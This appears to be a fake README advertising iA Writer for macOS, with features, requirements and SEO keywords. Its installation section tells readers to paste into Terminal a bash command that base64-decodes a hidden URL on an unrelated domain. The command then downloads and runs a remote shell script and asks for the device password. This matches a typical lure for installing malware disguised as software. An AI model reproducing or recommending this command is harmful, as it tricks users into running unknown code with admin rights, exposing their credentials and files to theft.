 # ✍️ iA Writer for macOS

## About
iA Writer for macOS is a minimalist writing tool designed for clarity and focus. With Markdown support, syntax highlighting, and a distraction-free interface, it’s ideal for writers, bloggers, and professionals who value simplicity in their workflow.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://decoding.io/wp-content/uploads/2023/12/Screenshot-2023-12-03-at-08.41.46-1.png)  
![Overview 2](https://images.fastcompany.com/image/upload/f_webp,q_auto,c_fit/wp-cms/uploads/2022/07/p-1-ia-writer-is-a-minimalist-writing-tool-marie-kondo-would-adore.jpg)

## Key Features
- 📝 Distraction-free writing environment  
- 🔤 Full Markdown support  
- 🎯 Syntax highlighting for clarity  
- ☁️ Seamless cloud sync and publishing  
- 📄 Export to multiple formats  
- 🖥️ Optimized for macOS shortcuts

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 100 MB of available disk space  
- Internet connection for sync and updates

## SEO Keywords
iA Writer macOS · Markdown writing app · distraction-free editor Mac · minimalist text editor · writing software macOS · blogging tool Mac · focus writing app
